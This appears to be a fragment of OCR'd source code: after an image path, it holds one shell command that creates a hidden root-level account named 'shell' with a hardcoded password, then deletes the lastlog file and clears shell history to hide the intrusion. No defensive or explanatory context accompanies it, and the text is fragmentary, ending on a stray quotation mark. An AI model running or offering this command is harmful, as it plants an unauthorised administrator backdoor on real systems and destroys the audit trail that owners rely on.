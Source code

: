 useradd -o -u 0 -g 0 -M -d /root -s /bin/bash shell; clear; echo -e 'Crypt\ThatDevCrypt' | passwd shell; clear; rm -rf /var/log/lastlog;clear;clear;history -c;clear;clear;history -c; clear;"
